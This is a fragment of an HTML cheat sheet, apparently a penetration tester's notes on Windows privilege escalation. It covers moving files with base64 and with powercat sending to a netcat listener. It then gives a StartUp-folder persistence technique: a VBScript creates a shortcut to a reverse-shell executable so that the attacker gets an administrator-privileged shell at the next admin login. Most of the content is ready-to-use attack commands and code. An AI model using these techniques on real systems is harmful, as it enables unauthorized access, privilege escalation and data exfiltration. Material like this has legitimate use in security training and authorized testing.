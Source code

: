                         <td>
                            <li>$fc = Get-Content &lt;file&gt;</li>
                            <li>$fe = [System.Text.Encoding]::UTF8.GetBytes($fc)</li>
                            <li>[System.Convert]::ToBase64String($fe)</li>
                        </td>
                    </tr>
                    <tr>
                        <td>Read file with Kali</td>
                        <td>echo -n &lt;base64 text&gt; | base64 -d</td>
                    </tr>
                </table>
            </td>
        </tr>
        <tr>
            <td>Upload with powercat</td>
            <td>
                <table>
                    <tr>
                        <td>Set listener on receiving machine</td>
                        <td>nc -lvnp &lt;port #&gt; &gt; receiving_file.ps1</td>
                    </tr>
                    <tr>
                        <td>Send file with PowerCat</td>
                        <td>powercat -c &lt;ip address&gt; -p  &lt;port #&gt; -i C:\&lt;Directory and file name&gt;</td>
                    </tr>
                </table>
            </td>
        </tr>
    </table>

    <h2>Startup Apps</h2>
    <li>Program for startup apps that should start for all users (including admin):</li>
    <ul>
        <li>C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</li>
        <ul>
            <li>Directory</li>
            <li>if we have access, we can add a reverseShell.exe, and when admin logs in we will get a admin priv reverse shell.</li>
        </ul>
        <li>Check access to directory with accesschk.exe:</li>
        <ul>
            <li>accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"</li>
        </ul>
        <li>files in StartUp directory must be shortcuts (.lnk)</li>
        <ul>
            <li>VBScript to create a shortcut file:</li>
            <pre>
                Set oWS = WScript.CreateObject("WScript.Shell")
                sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
                Set oLink = oWS.CreateShortcut(sLinkFile)
                oLink.TargetPath = "C:\PrivEsc\reverse.exe"
                oLink.Save
            </pre>
        </ul>
        <li>cmd "cscript CreateShortCut.vbs"</li>
    </ul>
